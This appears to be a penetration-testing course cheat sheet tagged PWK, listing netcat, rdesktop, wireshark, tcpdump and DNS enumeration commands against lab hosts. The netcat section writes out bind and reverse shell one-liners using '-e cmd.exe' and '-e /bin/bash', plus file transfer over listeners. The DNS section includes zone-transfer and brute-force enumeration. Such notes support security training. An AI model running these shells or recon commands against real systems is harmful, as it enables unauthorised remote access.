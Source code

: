 ```yaml
---
title: tools
layout: article
tags: PWK
article_header:
  type: cover
---
```



## NETCAT

> → connect to:

```bash
nc -n (skip dns) -v 10.11.0.22 110
```

> → rdp to pc

```bash
rdesktop 10.11.0.22 -u offsec -p lab -g 1024x768 -x 0x80
```

> → configure nc listener on a pc

```bash
nc -nvlp 4444
```

> → connect to the pc with nc

```bash
nc -nv 10.11.0.22 4444
```

> → transfer files to / create a listener on pc

```bash
nc -nvlp 4444 > incoming.exe
```

> → create connection from linux

```bash
locate wget.exe
nc -nv 10.11.0.22 4444 < <locate result>
```

> → remote administration
>
> - from PC

```bash
nc -nlvp 4444 -e cmd.exe
```

> - linux
>
```bash
nc -nv 10.11.0.22 4444
```

> → reverse shell  
win pc  

```bash
nc -nlvp 4444
```

linux  

```bash
nc -nv 10.11.0.22 4444 -e /bin/bash
```

## wireshark

```bash
net filter → net 10.11.1.0/24
display filter → tcp port == 21
```

## tcpdump

```bash
sudo tcpdump -n -r password_cracking_filtered.pcap | awk -F “ ” ‘{print $3}’ | sort | uniq -c | head

sudo tcpdump -n src host 172.16.40.10 -r password_cracking_filtered.pcap
sudo tcpdump -n dst host 172.16.40.10 -r password_cracking_filtered.pcap
sudo tcpdump -n port 81 -r password_cracking_filtered.pcap

sudo tcpdump -nX -r password_cracking_filtered.pcap | less
```

> → read the header of the packet and look for ACK and GET  

```bash
sudo tcpdump -A -n ‘tcp[13] = 24’ -r password_cracking_filtered.pcap
```

## RELEVANT TOOLS IN KALI  

- DNSCON

```bash
dnsrecon -d megacorpone.com -t axfr (to do a zone transfer)
dnsrecon -d megacorpone.com -D ~/list.txt -t brt (to do a brute force enum)
```

- DNSENUM  

```bash
dnsenum zonetransfer.com
```

